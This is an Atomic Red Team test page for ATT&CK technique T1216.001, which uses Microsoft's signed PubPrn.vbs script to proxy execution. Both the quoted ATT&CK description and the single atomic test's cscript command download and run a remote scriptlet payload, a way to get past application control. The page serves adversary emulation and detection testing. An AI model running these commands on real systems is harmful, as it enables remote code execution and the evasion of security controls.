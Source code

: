 # T1216.001 - PubPrn
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1216/001)
<blockquote>Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass

auto_generated_guid: 9dd29a1f-1e16-4862-be83-913b10a88f6c

Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
